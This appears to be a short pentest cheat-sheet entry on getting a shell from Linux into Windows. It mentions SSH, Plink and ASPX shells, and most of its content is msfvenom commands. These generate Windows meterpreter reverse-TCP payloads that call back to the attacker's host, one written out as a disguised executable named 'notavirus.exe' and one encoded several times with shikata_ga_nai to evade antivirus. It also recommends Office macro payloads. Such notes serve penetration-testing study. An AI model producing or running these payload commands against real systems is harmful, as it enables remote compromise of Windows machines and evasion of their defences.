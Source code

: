 --- ---

<h2>Linux -> Windows</h2>

Establishing a shell or reverse shell connection between Linux and Windows machines can be complex due to incompatible shells and commands. However, it's possible with the right knowledge and tools. Use SSH to connect to a remote Windows machine from a Linux machine and run commands. The Windows machine needs an SSH server installed. For reverse shell connection, use Plink to initiate a connection from Windows to Linux. Alternatively, use ASPX shell with a Windows machine as an intermediary host, but this approach requires specific Windows tools and techniques and may not be reliable.

MSFvenom
```
msfvenom -p [payload] -f [format] LHOST=[your ip] LPORT=[your listener port]

msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe -o notavirus.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

<font color="Green">Other Technique ---></font>  [[Macros Payloads (MS World, Excel, ...)]] (VERY GOOD)